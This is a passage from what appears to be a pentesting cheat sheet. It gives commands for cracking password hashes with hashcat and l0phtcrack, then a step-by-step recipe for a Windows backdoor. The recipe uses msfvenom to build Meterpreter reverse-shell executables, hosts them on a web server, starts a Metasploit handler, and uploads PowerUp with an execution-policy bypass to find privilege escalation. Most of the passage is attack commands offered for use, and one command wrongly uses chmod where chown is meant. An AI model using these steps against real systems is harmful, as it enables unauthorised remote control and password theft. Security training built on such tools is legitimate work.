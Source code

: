 - Hashcat
```bash
hashcat -m 0 -a 0 pathFileContainsHash pathWordlist
    - -m: type hash we are cracking (for example 0 = MD5).
	- -a 0: designates a dictionary attack.
```

- [Crackstation](https://crackstation.net)

- l0phtcrack (Windows) Audit system passwords
    - Click Password auditing wizard > Next > Choose the target system type (Windows or Linux) > A remote machine > Type the IP target and credentials > Choose audit type


##   Create a Reverse Shell

- Msfvenom (reverse shell)
```bash
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=IP LPORT=port -o ./test.exe

msfvenom -p windows/meterpreter/reverse_tcp lhost=IP lport=port -f exe > /home/attacker/Desktop/backdoor.exe
```

- Init a server with apache2 (/var/www/html)
```bash
mkdir /var/www/html/share
chmod -R 755 /var/www/html/share
chmod -R www-data:www-data /var/www/html/share
cp /test.exe /var/www/html/share
service apache2 start
# or
python3 -m http.server port
```

- Init a handler
```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST IP
set LPORT port
exploit
```

- Upload a powerup (powersploit)
```bash
meterpreter > upload /root/PowerSploit/PowerUp.ps1
meterpreter > shell

powershell -ExecutionPolicy Bypass -Command ". .\\PowerUp.ps1;Invoke-AllChecks"
```

##   Gain Access to a Remote System
